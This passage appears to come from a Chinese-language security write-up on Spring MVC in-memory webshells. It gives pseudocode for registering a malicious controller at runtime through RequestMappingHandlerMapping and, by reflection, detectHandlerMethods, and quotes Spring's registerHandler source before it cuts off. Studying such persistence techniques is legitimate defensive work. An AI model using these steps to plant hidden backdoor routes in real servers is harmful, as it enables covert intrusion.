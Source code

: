 ##### 针对于  RequestMappingHandlerMapping 映射器的获取和注册
整理一下通过`RequestMappingHandlerMapping`的父类 `Abstract**HandlerMethod**Mapping`注册实现的伪代码：
```java
// 1. 从当前上下文环境中获得 RequestMappingHandlerMapping 的实例 bean

RequestMappingHandlerMapping r = context.getBean(RequestMappingHandlerMapping.class);

// 2. 通过反射获得自定义 controller 中唯一的 Method 对象

Method method = (Class.forName("evilMethod").getDeclaredMethods())[0];

// 3. 定义访问 controller 的 URL 地址

PatternsRequestCondition url = new PatternsRequestCondition("/hahaha");

// 4. 定义允许访问 controller 的 HTTP 方法（GET/POST）

RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();

// 5. 在内存中动态注册 controller

RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);

r.registerMapping(info, Class.forName("恶意Controller").newInstance(), method);
```

在其父类 `Abstract**HandlerMethod**Mapping`中其实还有一个方法可以用来注册路由映射--`detectHandlerMethods`

![image.png](https://cdn.nlark.com/yuque/0/2024/png/36078896/1709737009610-7cb402ad-17a3-4c15-b4c3-d6ae2323fcb7.png#averageHue=%233d434c&clientId=u9af1806a-7a9b-4&from=paste&height=670&id=u04bf8f66&originHeight=1005&originWidth=1745&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=816298&status=done&style=none&taskId=ue9804de3-6f8b-4779-a568-9bc8f6e5ce6&title=&width=1163.3333333333333)
逻辑为接受一个任意类型的 handler 参数，然后在 IOC 容器中找寻这个名字 bean 进行注册		
贴一下实现的伪代码：
```java
context.getBeanFactory().registerSingleton("dynamicController", Class.forName("恶意Controller").newInstance());

org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping.class);

java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractHandlerMethodMapping.class.getDeclaredMethod("detectHandlerMethods", Object.class);

m1.setAccessible(true);

m1.invoke(requestMappingHandlerMapping, "dynamicController");
```


针对于 DefaultAnnotationHandlerMapping 的注册映射
对于 Spring 2.5 开始到 Spring 3.1  的`DefaultAnnotationHandlerMapping`映射注册（不会现在还有人在用吧），我们可以跟踪到它的顶级父类 `AbstractUrlHandlerMapping`，其中有这么一段方法
```java
	protected void registerHandler(String urlPath, Object handler) throws BeansException, IllegalStateException {
		Assert.notNull(urlPath, "URL path must not be null");
		Assert.notNull(handler, "Handler object must not be null");
		Object resolvedHandler = handler;

		// Eagerly resolve handler if referencing singleton via name.
		if (!this.lazyInitHandlers && handler instanceof String) {
			String handlerName = (String) handler;
			ApplicationContext applicationContext = obtainApplicationContext();
			if (applicationContext.isSingleton(handlerName)) {
				resolvedHandler = applicationContext.getBean(handlerName);
			}
```
